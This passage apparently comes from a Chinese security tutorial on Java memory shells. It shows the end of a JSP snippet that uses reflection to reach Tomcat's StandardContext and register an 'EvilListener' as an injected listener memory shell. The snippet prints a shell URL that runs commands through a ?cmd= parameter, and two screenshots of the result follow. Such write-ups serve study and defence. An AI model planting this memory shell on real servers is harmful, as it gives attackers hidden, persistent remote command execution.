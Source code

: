 ```bash
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    EvilListener evilListener = new EvilListener();
    context.addApplicationEventListener(evilListener);
    out.println("[+]&nbsp;&nbsp;&nbsp;&nbsp;Inject Listener Memory Shell successfully!<br>[+]&nbsp;&nbsp;&nbsp;&nbsp;Shell url: http://localhost:8080/test/?cmd=ipconfig");
%>
```

效果如下：

[![](assets/1708482732-94dcf371a073525165aaf35e8dad7102.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003500-5582df80-c832-1.jpeg)

[![](assets/1708482732-3634c0f1bfefec138795ef25bcfcfa99.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003500-55c02c5a-c832-1.jpeg)
